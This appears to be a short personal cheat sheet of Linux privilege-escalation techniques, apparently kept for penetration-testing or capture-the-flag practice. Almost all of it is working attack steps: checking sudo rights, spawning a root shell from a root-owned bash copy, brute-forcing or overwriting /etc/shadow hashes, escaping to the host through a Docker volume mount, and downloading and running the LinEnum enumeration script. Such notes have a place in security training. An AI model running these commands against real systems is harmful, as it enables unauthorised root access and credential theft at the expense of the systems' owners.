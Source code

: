 				Sudo 
Can you su without a password?		       su root
are you already a sudo user?			   sudo su -
what can we run with sudo?			  sudo -l

				Spawning root shells
Create a copy of /bin/bash or /bin/sh can you call it rootbash - make sure its owned by the root user. Then use /bin/bash -p to run it

				/etc/shadow
can you read /etc/shadow? Try brute force
				
				Writeable /etc/shadow
ls -l /etc/shadow					is /etc/shadow writable
mkpasswd -m sha-512 password		

				Docker
-- get image name using 'docker ps'
-- docker run -v /:/mnt --rm -it $imagenamehere chroot /mnt sh

				LinEnum
-- wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
-- ./LinEnum.sh -t -r report.txt

				Misc
-- https://gtfobins.github.io/
